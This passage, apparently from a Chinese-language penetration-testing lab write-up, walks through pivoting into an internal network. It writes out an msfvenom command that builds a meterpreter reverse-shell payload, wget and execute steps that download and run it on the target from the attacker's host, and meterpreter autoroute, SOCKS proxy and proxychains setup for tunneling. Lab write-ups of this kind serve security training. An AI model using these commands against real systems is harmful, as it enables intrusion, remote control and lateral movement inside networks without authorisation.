     
    ![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220316204213640-256596114.png)
    
2.  msfvenom生成相应的payload
    
        msfvenom -p linux/x64/meterpreter_reverse_tcp lhost=172.16.95.133 lport=8888 -f elf >shell.elf
        
    
    ![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220316204213960-2041751973.png)
    
3.  利用第一关的shell将生成的payload下载到目标机器执行进行上线
    
        cd /tmp
        wget http://172.16.95.133/shell.elf
        chmod +x shell.elf
        ./shell.elf
        
    
    ![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220316204214190-540861074.png)  
    **成功上线**  
    ![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220316204214441-1012468520.png)
    
4.  给获得的meterpreter添加内网路由
    
        route
        run autoroute -s 172.17.0.0/16
        background
        route print
        
    
    ![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220316204214686-2113072499.png)
    
5.  开启msf的代理服务端功能
    
        sessions
        use auxiliary/server/socks_proxy
        show options
        run
        
    
    ![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220316204215024-823562947.png)
    
6.  配置proxychains以使用代理
    
        sudo vim /etc/proxychains4.conf
        
    
    将msf的代理服务器地址写入  
    ![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220316204215386-672268681.png)
    
7.  测试隧道是否成功  
    ![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220316204215659-2012374996.png)  
    可以看到隧道已经建立成功
    

##### 3.3.3.2 开始主机发现
